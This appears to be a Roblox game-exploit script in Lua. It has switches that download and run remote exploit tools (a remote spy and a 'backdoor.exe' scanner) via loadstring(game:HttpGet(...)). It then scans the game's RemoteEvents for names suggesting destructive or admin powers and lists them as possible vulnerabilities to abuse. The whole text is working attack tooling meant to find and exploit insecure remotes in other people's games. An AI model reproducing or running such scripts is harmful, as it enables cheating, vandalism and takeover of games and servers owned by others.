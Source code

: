 
	local load_BackdoorEXE = false
	local load_SimplySpy = false
	local load_DestroyToolTest = true

	if load_SimplySpy == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/exxtremestuffs/SimpleSpySource/master/SimpleSpy.lua%22"))()
	end

	if load_BackdoorEXE == true then
		loadstring(game:HttpGet("https://raw.githubusercontent.com/iK4oS/backdoor.exe/v8/src/main.lua%22"))()
	end

	local PingWords = {
		"destroy",
		"delete",
		"del",
		"place",
		"remove",
		"replicate",
		"loadstring",
		"rev",
		"admin",
		"create",
		"property",
		"spawn",
		"clear",
		"trash",
		"fire",
		"bomb",
		"explode",
		"color",
		"update",
		"car",
		"money",
		"cheat",
		"data",
		"save",
		"build",
		"backdoor",
		"invis",
		"hide",
		"set"
	}

	local PossibleRemotes = {}

	for i,v in pairs(game:GetDescendants()) do
		if v:IsA("RemoteEvent") then
			for x,z in pairs(PingWords) do
				if string.find(v.Name:lower(), z:lower()) then
					warn("Possible Vulnerability found : ".. v.Name.. " | "..v.ClassName)
					table.insert(PossibleRemotes, v)
				end
			end
		end
	end
